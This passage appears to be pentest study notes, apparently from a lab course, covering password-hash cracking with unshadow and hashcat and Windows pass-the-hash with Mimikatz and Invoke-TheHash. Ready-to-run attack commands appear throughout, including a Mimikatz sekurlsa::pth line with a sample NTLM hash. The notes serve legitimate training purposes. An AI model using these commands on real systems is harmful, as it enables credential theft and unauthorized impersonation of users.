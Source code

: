 
---

if we have `passwd.bak` and `shadow.bak`

- `unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes`
- the crack using hashcat `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked`

# **Windows Lateral Movement (`PtH`)**

Technique where attacker uses password hash instead of plane text password for authentication

## Pass the Hash

### **Windows NTLM Introduction**

Is a set of security protocols. It is a Single Sign-on SSO solution that uses challenge-response protocol to verify users identity without having them provide a password

- Kerberos has taken over as the default authentication mechanism in windows 2000 and subsequent AD domain

# **Pass the Hash with Mimikatz (Windows)**

Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password.

- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

> `mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit`

Now we can use cmd.exe to execute commands in the user's context

### **Pass the Hash with PowerShell Invoke-TheHash (Windows)**

[https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

When using `Invoke-TheHash`, we have two options: SMB or WMI command execution.

- `Target` - Hostname or IP address of the target.
- `Username` - Username to use for authentication.
- `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
